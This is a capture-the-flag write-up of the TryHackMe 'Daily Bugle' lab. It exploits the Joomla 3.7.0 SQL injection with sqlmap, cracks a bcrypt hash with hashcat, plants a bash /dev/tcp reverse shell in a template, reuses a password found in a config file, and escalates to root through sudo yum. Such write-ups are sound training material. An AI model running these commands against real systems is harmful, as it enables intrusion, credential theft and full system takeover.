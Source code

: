 ```yaml
---
title: Writeup Daily Bugle (THM)
layout: post
author: hyprcub
tags: writeup
---
```

# TL;DR

This [Try Hack Me box](https://tryhackme.com/room/dailybugle) features mainly SQLi and hashes cracking. It goes as follow:
- exploit an [SQL injection vulnerability in Joomla 3.7.0](https://www.exploit-db.com/exploits/42033) to get a password hash
- crack it and use the credentials to log in the CMS
- inject a one-line PHP reverse shell in Joomla's default template code
- mine passwords to escalate to a regular user
- abuse `sudo` and `yum` to get full privileges.

# Enumeration

## Ports and Services

We start with the usual ports scanning:
```bash
export target=10.10.175.125
nmap $target -p- -A -oN tcp_ports.txt
sudo nmap $target -sU -A -oN udp_ports.txt
```

From the results:
```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
we learn a bunch of things. Mainly, that there is a [Joomla! CMS instance](https://www.joomla.org/) on **port 80/tcp**.

## Port 80/tcp

To get Joomla's version we can read the `/README.txt` or use [OWASP Joomscan](https://github.com/OWASP/joomscan) :
```bash
curl $target/README.txt
```

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

[SNIP]
```
This is **Joomla 3.7**.

# Low Level Access

## SQLi

This particular Joomla version is subject to an [SQL injection vulnerability](https://www.exploit-db.com/exploits/42033). We can exploit it with [sqlmap](http://sqlmap.org/) to get a password hash:
```bash
sqlmap -u "http://$target/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -C username,password
```

It gives:
![sqlmat output]({{ "/assets/img/daily-bugle-sqlmap.png"| absolute_url }})
For manual exploitation of this blind SQLi, see [hack3rman's considerations](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) and [his python script](https://github.com/hack3rman/TryHackMe/blob/master/Scripts/db-blind.py).

## Hash cracking

We can identify the hash using [haiti](https://noraj.github.io/haiti/#/):
```bash
echo $2y$[OBFUSCATED] > hash
haiti $(cat hash)
```
```
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
bcrypt [HC: 3200] [JtR: bcrypt]
```
**bcrypt** format  is confirmed by looking at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

Then we crack it with [hashcat](https://hashcat.net):
```bash
export dict=/usr/share/wordlists/rockyou.txt
hashcat -m 3200 hash $dict
```
![Hashcat output]({{ "/assets/img/daily-bugle-hashcat.png" | absolute_url }})

## Shell

Now that we have credentials we can log in Joomla's administrator panel located at `http://$target/administrator/` and navigate to Joomla's defaut template to inject shell code into `/index.php`, namely:
```php
shell_exec("/bin/bash -i >& /dev/tcp/10.11.31.164/443 0>&1");
```
See below:
![shell code in a PHP file]({{ "/assets/img/daily-bugle-shell-code.png"| absolute_url }})

After having set up a netcat listener  and triggered the shell with `curl $target` we get a command line as the user `www-data`:
![a shell as www-data]({{ "/assets/img/daily-bugle-shell.png" | absolute_url }})

Before proceeding to privilege escalation, let's enhance the shell:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PS1="(\u@\h) [\w]\$ "
alias ll="ls -al --color=auto" # yes, I like colors
```
see [ropnop's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) for further details.

# Privilege Escalation

## Escalating to jjameson user

Doing the usual password mining, we can find the following lines in the file `/var/www/html/configuration.php`:
```php
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```
which are the admin credentials for MySQL. The password is also good for the user `jjameson`:
![su as jjameson]({{ "/assets/img/daily-bugle-jjameson.png" | absolute_url }})

## Abusing sudo and yum

Checking `sudo -l` is one of the quickest win:
```
Matching Defaults entries for jjameson on dailybugle:
	!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
	env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
	env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
	env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
	env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
	env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
	secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
	(ALL) NOPASSWD: /usr/bin/yum
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), `yum` can be abused to get full privileges:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
![root shell]({{ "/assets/img/daily-bugle-root.png" | absolute_url }})
